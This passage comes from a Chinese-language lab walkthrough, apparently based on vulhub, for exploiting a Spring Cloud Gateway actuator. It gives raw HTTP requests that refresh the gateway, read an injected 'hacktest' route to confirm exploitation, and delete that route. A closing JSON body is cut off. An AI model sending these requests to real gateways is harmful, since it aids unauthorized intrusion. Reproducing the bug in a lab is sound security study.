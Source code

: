 

3. 刷新过滤器(用POST请求)

> 官网上的那个刷新的不能用, 我根据vulhub官网上的, 对照原本的数据包进行修改的. 

```
POST /actuator/gateway/refresh HTTP/1.1
Host: xxx.xxx.xxx.xxx(也就是目标网站的ip):8080
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 2

```

> 看到如下界面, 表示目标网站的网关刷新成功.

![image-20230410200247296](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410200247296.png)

4. 访问过滤器ID(用GET请求)

```
http://目标ip:8080/actuator/gateway/routes/hacktest
```

> 当然我们也可以直接在`BP`的`Repeater `模块中使用下面的请求数据, 当然, 个人觉得没有必要, **用浏览器正常访问, 不香吗?** 

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: xxx.xxx.xxx.xxx(也就是目标ip):8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20230410201723935](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410201723935.png)

> 这样, 漏洞就被利用成功啦!!!

> 补充:
>
> 当然我们也可以删除这个网关

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: xxx.xxx.xxx.xxx(也就是目标ip):8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

# 注意, 下面的这部分可能没有, 我在复现的时候没有成功删除网关
{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
```